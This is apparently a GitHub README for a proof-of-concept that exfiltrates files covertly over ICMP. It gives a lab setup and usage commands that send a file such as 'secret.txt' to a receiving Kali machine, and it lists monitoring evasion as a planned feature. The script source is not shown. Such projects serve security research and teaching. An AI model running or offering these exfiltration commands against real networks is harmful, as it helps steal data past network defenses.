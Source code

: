 # ICMP-Exfiltration-PoC
Proof-of-concept scripts to demonstrate file exfiltration using ICMP protocol.


# ICMP Exfiltration PoC

Proof-of-concept scripts to demonstrate file exfiltration using ICMP protocol.

---

## 📌 Overview

This repository contains two Python scripts (`sender.py` and `receiver.py`) demonstrating how files can be covertly transmitted using the ICMP protocol, commonly employed for network diagnostics (ping). This PoC is intended solely for educational and research purposes.

---

## 📦 Requirements

Make sure Python 3 is installed along with these dependencies:

```bash
pip install scapy pycryptodome requests
```

Or use the provided `requirements.txt` file:

```bash
pip install -r requirements.txt
```

---

## 🖥 Setup

Use two virtual machines connected via an internal network:

- **Sender VM:** Linux Mint (or similar)
- **Receiver VM:** Kali Linux (or similar)

Configure static IPs (example setup):

- Sender: `192.168.100.10`
- Receiver: `192.168.100.20`

---

## 🚀 Usage

### Receiver

On Kali Linux:

```bash
sudo python3 receiver.py -P <PortTag> -R <Password> -o <OutputFileName> -v
```

Example:

```bash
sudo python3 receiver.py -P 6666 -R "MySecurePass" -o output.txt -v
```

### Sender

On Linux Mint:

```bash
sudo python3 sender.py -L <FileToSend> -P <Password> -D <ReceiverIP> -R <PortTag> -v
```

Example:

```bash
sudo python3 sender.py -L secret.txt -P "MySecurePass" -D 192.168.100.20 -R 6666 -v
```

---

## ⚠️ Ethical Considerations

This PoC is strictly for educational purposes. Unauthorized use on any network or system without explicit permission is illegal and unethical. Always perform these tests within controlled environments.

---

## 📌 Future Improvements

- Payload obfuscation and encoding
- Packet compression
- Integrity checks (checksums, HMAC)
- Multi-file support
- Evasion techniques against network monitoring

Feel free to contribute and suggest improvements!

---

## 🔖 License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.
